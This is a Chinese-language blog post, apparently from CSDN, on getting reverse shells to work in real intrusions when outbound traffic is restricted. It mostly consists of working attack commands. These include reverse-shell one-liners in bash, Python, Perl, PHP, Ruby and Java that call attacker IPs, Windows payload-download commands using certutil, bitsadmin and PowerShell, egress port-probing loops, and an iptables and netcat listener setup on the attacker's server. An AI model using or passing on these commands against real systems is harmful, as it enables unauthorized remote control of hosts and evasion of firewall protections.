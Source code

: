 **目录**

[反弹的命令不存在或当前用户无权限调用bash](#t0)

[禁止出站IP](#t1)

[禁止出站协议](#t2)

[探测HTTP协议](#t3)

[探测ICMP协议](#t4)

[探测DNS协议](#t5)

[禁止出站端口](#t6)

[Linux系统](#t7)

[Windows系统](#t8)

[探测的端口范围](#t9)

[攻击端的端口请求记录](#t10)

* * *

在实战中，我们经常会遇到各种各样奇怪的环境。

![](https://img-blog.csdnimg.cn/20200503183238424.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

反弹shell失败的原因有很多：

*   反弹的命令不存在或当前用户无权限调用bash
*   禁止出站IP(只允许访问特定ip)
*   禁止出站端口(只允许访问特定端口)
*   禁止出站协议(只允许特定协议，如icmp、dns、http)

反弹的命令不存在或当前用户无权限调用bash
----------------------

由于这种情况下只局限于Linux，所以不考虑Windows

反弹shell的命令，尽管这么多命令可以反弹shell，但是最终都还是调用bash来反弹，如下：

```
#bash反弹      
bash -i >& /dev/tcp/192.168.10.27/4444 0>&1      
#python反弹      
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.10.27",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'      
#Perl反弹      
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'      
#PHP反弹      
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3>&3 2>&3");'      
#Ruby反弹      1
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d>&%d 2>&%d",f,f,f)'      1
#Java反弹      1
r = Runtime.getRuntime() p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 2="" |="" while="" read="" line;="" do="" \$line="">&5 >&5; done"] as String[]) p.waitFor()
```


![](https://img-blog.csdnimg.cn/20200503181655660.png)

![](https://img-blog.csdnimg.cn/20190727134148927.png)
------------------------------------------------------

禁止出站IP
------

对于这种情况的话，就很麻烦了。如果目标主机设置了严格的策略，只允许主动连接公网指定的IP。这样的话，就没办法反弹shell了。

禁止出站协议
------

对于禁止出站协议这种情况的话，我们先得探测目标机器允许哪些协议出公网。

### 探测HTTP协议

```
Linux系统可以使用curl命令：      
    curl http://192.168.10.13      
Windows系统可以使用以下命令：      
    certutil -urlcache -split -f http://192.168.10.13/1      
    bitsadmin /transfer test http://192.168.10.13/1 c:\1      
    powershell iwr -Uri http://192.168.10.13/1 -OutFile 1 -UseBasicParsing
```


![](https://img-blog.csdnimg.cn/20200503184057723.png)

![](https://img-blog.csdnimg.cn/20200503184342722.png)

![](https://img-blog.csdnimg.cn/20200503190701678.png)

### 探测ICMP协议

```
服务端监听ICMP流量：tcpdump icmp      
客户端ping VPS地址，查看服务端能否收到请求
```


我们VPS[监听](https://so.csdn.net/so/search?q=%E7%9B%91%E5%90%AC&spm=1001.2101.3001.7020)，然后ping我们vps查看能否收到监听来判断ICMP 协议是否出网。也可以直接ping一个地址，看是否有ttl值。

![](https://img-blog.csdnimg.cn/20200503184246247.png)

### 探测DNS协议

```
Windows：nslookup、ping      
Linux：nslookup、dig、ping
```


通过判断能否将域名解析为ip，判断DNS协议是否出网。也可以将域名换成dnslog的域名，再看dnslog能否收到请求  ![](https://img-blog.csdnimg.cn/20200503185624496.png)

禁止出站端口
------

如果防火墙上做了限制，只允许该服务器访问公网地址的特定端口。那么，这样的话，我们就必须得找到允许访问的端口了。

这里有一篇文章对这个讲的很好，传送门：[照弹不误：出站端口受限环境下反弹Shell的思考](https://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651081947&idx=1&sn=a1034b30907411abfd730e45d07aa573&chksm=bd1fde508a685746ed9b63b19b457f6d9121992ee3af29a172d6f33bfbe5c2797a13a09ef61c&mpshare=1&scene=1&srcid=0421NmOEXG9CvJ1f7R9sQiN5&sharer_sharetime=1587481022873&sharer_shareid=31c8cf8cc2b90a177f89e7933c803ca5&key=8bd6b37e905b7deeaae65bf63453d31a5e2016cf46bc84b4318e1319320dde1d60beb1340406d98b0bba702e21798a5a8a8c44b4e3d7dc9931abe1ead9b71983dbf61aa86397f3ddc514038c88ad27d1&ascene=1&uin=MjIwMDQzNjQxOQ%3D%3D&devicetype=Windows+10+x64&version=62090070&lang=zh_CN&exportkey=A1pYZLo5qSufoNLb2434bDI%3D&pass_ticket=YmtPvDlSlHNFTRPe19jpOh%2Bw%2F3UGQtVKGktRzpy8fupXr4M1lcOXVVP12L3xt%2BW7)

以下是该文的一些思路

### Linux系统

对于Linux系统，探测其允许出网的端口，这里使用的是Linux的自带命令，所以适用于每个Linux版本。

```
for i in {440..449};do timeout 0.5 bash -c "echo >/dev/tcp/baidu.com/$i" && echo "$i ************************open************************" || echo "$i closed";done       
也可以将结果写入文件中      
for i in {440..449};do timeout 0.5 bash -c "echo >/dev/tcp/baidu.com/$i" && echo "$i ************************open************************"|| echo "$i closed";done >> result.txt       
探测常见端口      
for i in {21,22,23,25,53，80,88,110,137,138,139,123,143,389,443,445,161,1521,3306,3389,6379,7001,7002,8000,8001,8080,8090,9000,9090,11211};do timeout 0.5 bash -c "echo >/dev/tcp/baidu.com/$i" && echo "$i ************************open************************" || echo "$i closed";done
```


![](https://img-blog.csdnimg.cn/2020083016291886.png)

![](https://img-blog.csdnimg.cn/20200830165534645.png)

![](https://img-blog.csdnimg.cn/20200830163057303.png)

### Windows系统

```
powershell -c "440..445 | %{tnc -InformationLevel Quiet 220.181.38.148 -port $_}"      
powershell -c "53,80,443 | %{tnc -InformationLevel Quiet 220.181.38.148 -port $_}"       
或者       
powershell -c "80,81 | %{try {(new-object Net.Sockets.TcpClient).Connect('220.181.38.148',$_);Write-Host "$_ open"} catch {Write-Host "$_ closed"} finally {} }"|findstr /I open
```


![](https://img-blog.csdnimg.cn/20200830161331976.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200830162036871.png)

![](https://img-blog.csdnimg.cn/20200830174543952.png)

### 探测的端口范围

可以根据nmap的端口范围探测

```
nmap -n --top-ports 100 127.0.0.1 -oA foo > /dev/null      
grep -i "services\=" foo.xml | sed -r 's/.*services\=\"(.*)(\"\/>)/\1/g'
```


 ![](https://img-blog.csdnimg.cn/2020083018262838.png)

### 攻击端的端口请求记录

我们攻击端这边需要有目标机访问的记录，才能更好的判断目标机器是否访问了我们。这样，只要目标机器访问到了我们VPS的任意一个端口，我们这边都能有记录。

```
//备份iptables规则      
iptables-save > /tmp/firewall.rules      
//将所有端口的流量都转发到34444端口      
iptables -A PREROUTING -t nat -p tcp --dport 1:65535 -j REDIRECT --to-port 34444      
//监听34444端口      
nc -lvp 34444      
//恢复iptables规则      
iptables-restore < /tmp/firewall.rules
```


参考文章：[照弹不误：出站端口受限环境下反弹Shell的思考](https://mp.weixin.qq.com/s?__biz=MjM5NjA0NjgyMA==&mid=2651081947&idx=1&sn=a1034b30907411abfd730e45d07aa573&chksm=bd1fde508a685746ed9b63b19b457f6d9121992ee3af29a172d6f33bfbe5c2797a13a09ef61c&mpshare=1&scene=1&srcid=0421NmOEXG9CvJ1f7R9sQiN5&sharer_sharetime=1587481022873&sharer_shareid=31c8cf8cc2b90a177f89e7933c803ca5&key=8bd6b37e905b7deeaae65bf63453d31a5e2016cf46bc84b4318e1319320dde1d60beb1340406d98b0bba702e21798a5a8a8c44b4e3d7dc9931abe1ead9b71983dbf61aa86397f3ddc514038c88ad27d1&ascene=1&uin=MjIwMDQzNjQxOQ%3D%3D&devicetype=Windows+10+x64&version=62090070&lang=zh_CN&exportkey=A1pYZLo5qSufoNLb2434bDI%3D&pass_ticket=YmtPvDlSlHNFTRPe19jpOh%2Bw%2F3UGQtVKGktRzpy8fupXr4M1lcOXVVP12L3xt%2BW7)